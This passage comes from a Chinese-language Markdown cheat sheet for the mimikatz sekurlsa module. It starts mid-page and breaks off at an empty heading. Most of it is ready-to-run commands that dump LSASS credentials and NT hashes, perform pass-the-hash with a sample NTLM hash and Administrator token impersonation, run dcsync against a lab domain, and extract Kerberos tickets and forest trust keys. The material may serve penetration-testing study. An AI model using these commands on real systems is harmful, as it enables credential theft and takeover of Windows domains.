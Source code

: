 mimikatz # sekurlsa::logonpasswords
```

## msv

通过针对MSV1_0 Authentication Package，转储和列出NT哈希值（和其他secrets）
```
mimikatz # sekurlsa::msv
```

## process

通过切换到LSASS进程的上下文，之后就可以使用sekurlsa::minidump命令

```
mimikatz # sekurlsa::minidump lsass.dump.dmp

mimikatz # sekurlsa::process
```

## pth

执行Pass-the-Hash、Pass-the-Key和Over-Pass-the-Hash。认证成功后，将运行一个程序（注：默认为cme.exe）

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7
```

**令牌模拟**
当前账号是普通域用户，知道Administrator的哈希

模拟Administrator的令牌，使用```/impersonate```参数
```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7 /impersonate
```

现在在Administrator的上下文中可以执行dcsync
```
mimikatz # lsadump::dcsync /user:Administrator
```

## ssp

列出Security Support Provider (SSP)凭据

```
mimikatz # sekurlsa::ssp
```

## tickets
列出属于目标服务器/工作站上所有认证用户的Kerberos ticket。与kerberos::list不同，sekurlsa使用内存读取，不受密钥输出的限制。Sekurlsa也可以访问其他会话（用户）的票据。

```
mimikatz # sekurlsa::tickets
```

## trust

检索林信任keys
```
mimikatz # sekurlsa::trust
```

## tspkg
```